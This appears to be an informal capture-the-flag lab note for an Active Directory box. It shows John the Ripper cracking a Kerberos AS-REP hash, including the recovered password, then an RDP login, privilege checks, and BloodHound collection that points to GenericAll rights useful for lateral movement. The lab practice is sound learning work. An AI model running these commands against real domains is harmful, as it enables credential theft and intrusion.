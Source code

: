 
root@ip-10-201-62-243:/opt/impacket/examples# john --format=krb5asrep-aes-opencl --wordlist=/usr/share/wordlists/rockyou.txt hashlist.txt Device 2: pthread-AMD EPYC 7571 Using default input encoding: UTF-8 Loaded 3 password hashes with 3 different salts (krb5asrep-aes-opencl, Kerberos 5 AS-REP etype 17/18 [PBKDF2-SHA1 OpenCL 8x]) 2 warnings generated. Build log: warning: /opt/john/opencl/opencl_hmac_sha1.h:28:37: duplicate 'const' declaration specifier warning: /opt/john/opencl/opencl_hmac_sha1.h:32:16: duplicate 'const' declaration specifier LWS=8 GWS=64 (8 blocks) Press 'q' or Ctrl-C to abort, almost any other key for status

marlboro(1985)   ($krb5asrep$23$TABATHA_BRITT@THM.CORP)

-------------------------------------------------------------------------------------------------------------

evilwinrm time

couldnt get it to pop

xfreerdp /v:HAYSTACK /u:TABATHA_BRITT /p:marlboro\(1985\)
Y

PS C:\Windows\system32> whoami /priv                                                                                                                                                                                                            PRIVILEGES INFORMATION                                                                                                  ----------------------                                                                                                                                                                                                                          Privilege Name                Description                    State                                                      ============================= ============================== ========                                                   SeMachineAccountPrivilege     Add workstations to domain     Disabled                                                   SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled                                                   PS C:\Windows\system32> whoami                                                                                          thm\tabatha_britt                                                                                                       PS C:\Windows\system32>      


-------------------------------------------------------------------------------------------------------------


I can't see the local priv esc vertically I went back to old labs and tried some stuff like checking execution policy so we can still check horizontal moves

root@ip-10-201-62-243:~# bloodhound-python -dc HAYSTACK.thm.corp -d thm.corp -u TABATHA_BRITT -p 'marlboro(1985)' -ns 10.201.13.246 --dns-tcp -c ALL

neo4j console start

(quickstart gui bloodhound idk it works brah)
![[Pasted image 20251009182345.png]]

-------------------------------------------------------------------------------------------------------------


this screenshot demonstrates TABATHA's generic all on RAQUEL_BENSON and SHAWNA_BRAY

This may be our opportunity at lateral movement
